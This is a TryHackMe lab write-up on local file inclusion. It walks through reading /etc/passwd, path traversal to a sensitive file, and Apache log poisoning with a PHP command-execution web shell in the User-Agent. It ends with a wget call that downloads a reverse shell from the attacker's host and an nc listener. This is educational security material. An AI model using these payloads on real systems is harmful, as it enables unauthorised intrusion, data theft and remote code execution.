









# TryHackMe : LFI_Basics


## Initial Recon

```
sudo nmap -sC -sV 10.10.170.246 > rec_ini
```

Only port 80 is open.

## Checking the web page : 




## First Walkthrough

It gives the url  : 

```
http://10.10.170.246/lfi/lfi.php
```

As asked in the guide, add `?page` to the url.

```
http://10.10.170.246/lfi/lfi.php?page=home.html
```

Adding home.html, gives us the home.html page.



### Try adding `/etc/passwd`

```
http://10.10.170.246/lfi/lfi.php?page=/etc/passwd
```

This gives the `/etc/passwd` file : 



The default user present is  : 

```
lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash
```


### Piece of code which actually leads to LFI

```
$local_file = $_REQUEST["page"];
```


## Directory Traversal 

To know more about Directory Traversal : 

https://owasp.org/www-community/attacks/Path_Traversal


**Directory traversal or Path Traversal is an HTTP attack which allows attackers to access restricted directories and execute commands outside of the web server’s root directory or other paths.**


Now here, if we again try to access the `home.html` page, we wont be able to.


### Using path traversal to get credit card

Now if we move up one directory, and access creditcard, we can get it : 

```
http://10.10.170.246/lfi2/lfi.php?page=../creditcard
```




### /etc/passwd file


We can move up more directories to get the `/etc/passwd` file : 

```
http://10.10.170.246/lfi2/lfi.php?page=../../../../../../../etc/passwd
```


### Vulnerable Code which leads to path traversal

```
$local_file = "html/".$_REQUEST["page"];
```


## Log Poisoning

**Log Poisoning is a common technique used to gain a reverse shell from a LFI vulnerability. To make it work an attacker attempts to inject malicious input to the server log.**

**Note: In order for that to happen, the directory should have read and execute permissions.**


### Accessing the apache2 logfile

The file is located in `/var/log/apache2/access.log`




### Poisoning the log

Since we can access the log, we can try to poison it.

1) Capture the request using Burp.</br>




2) Change the User-Agent to insert a malicious php code : 

```
<?php system($_GET['lfi']); ?>
```


This wil allow the url to take a parameter `lfi` which will be able to execute commands.

3) Use the lfi parameter to test for command exection

```
http://10.10.170.246/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls
```



We can see that the command `ls` is executed and the output is shown.


4) Use the lfi to read the flag from the user `lfi`

```
http://10.10.170.246/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r
```





## Getting code execution 

Instead of only using the lfi, we can upload a shell and get code execution.

1) Start the http server and get the php reverse shell ready.</br>
2) Use `wget` to upload the shell to the server</br>

```
http://10.10.170.246/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=wget http://10.9.84.8/shell.php
```

3) Since the shell is uploaded in the same root directory for the web server, visit `shell.php` directly and get shell .

```
rlwrap nc -nlvp 1331

http://10.10.170.246/lfi/shell.php
```




# FOR FURTHER REFERENCE

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
